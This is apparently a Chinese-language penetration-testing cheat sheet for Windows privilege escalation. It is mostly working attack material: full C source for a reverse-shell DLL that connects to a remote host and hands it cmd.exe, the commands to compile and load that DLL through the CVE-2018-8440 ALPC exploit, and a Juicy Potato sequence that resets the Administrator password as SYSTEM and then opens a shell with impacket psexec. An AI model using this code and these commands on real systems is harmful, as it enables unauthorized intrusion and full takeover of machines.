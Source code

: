 # 1、CVE-2018-8440分析提权（win2016、win10）

查看系统版本及补丁情况
```bash
systeminfo
```
查看目录权限
```bash
icacls C:\Windows\Tasks
```
user需要有读和执行的权限


参考ALPC DiagHub exploit - https://github.com/realoriginal/alpc-diaghub


下载对应版本的bin，编写dll


使用mingw-w64编译dll
```bash
apt install mingw-w64
x86_64-w64-mingw32-g++ payload.cpp -o payload.dll -lws2_32 -shared
```
执行命令加载dll获得反弹shell
```bash
cmd /c alpc.exe payload.dll .\xh.rtf
```
dll源代码：
```c
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#include <ws2tcpip.h>
#pragma comment(lib, "Ws2_32.lib")
#define DEFAULT_BUFLEN 1024
void revShell();
BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved)
{
switch(dwReason)
{
case DLL_PROCESS_ATTACH:
revShell();
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return 0;
}
void revShell() {
Sleep(1000); // 1000 = One Second
SOCKET mySocket;
sockaddr_in addr;
WSADATA version;
WSAStartup(MAKEWORD(2,2), &version);
mySocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP, NULL, (unsigned
int)NULL, (unsigned int)NULL);
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = inet_addr("10.10.10.11"); // Change IP
addr.sin_port = htons(4444); //Change port
//Connecting to Proxy/ProxyIP/C2Host
if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL,
NULL, NULL)==SOCKET_ERROR) {
closesocket(mySocket);
WSACleanup();
}
else {
char RecvData[DEFAULT_BUFLEN];
memset(RecvData, 0, sizeof(RecvData));
int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN, 0);
if (RecvCode <= 0) {
closesocket(mySocket);
WSACleanup();
}
else {
char Process[] = "cmd.exe";
STARTUPINFO sinfo;
PROCESS_INFORMATION pinfo;
memset(&sinfo, 0, sizeof(sinfo));
sinfo.cb = sizeof(sinfo);
sinfo.dwFlags = (STARTF_USESTDHANDLES |
STARTF_USESHOWWINDOW);
sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError =
(HANDLE) mySocket;
CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL,
NULL, &sinfo, &pinfo);
WaitForSingleObject(pinfo.hProcess, INFINITE);
CloseHandle(pinfo.hProcess);
CloseHandle(pinfo.hThread);
memset(RecvData, 0, sizeof(RecvData));
int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN,
0);
if (RecvCode <= 0) {
closesocket(mySocket);
WSACleanup();
}
if (strcmp(RecvData, "exit\n") == 0) {
exit(0);
}
}
}
}
```
# JUICY POTATO提权

查看权限，SeImpersonate为enabled

```bash
whoami /priv
```
使用https://github.com/ohpe/juicy-potato

下载JuicyPotato
```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
编写bat文件
```bash
net user Administrator abc123!
```
利用JuicyPotato以system权限执行bat文件
```bash
.\juicypotato.exe -t * -p C:\Users\Public\root.bat -l 9001 -c {A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6}
```
使用Python impacket获取system权限shell


https://github.com/SecureAuthCorp/impacket

```bash
psexec.py administrator@10.10.10.116 # password: abc12
```





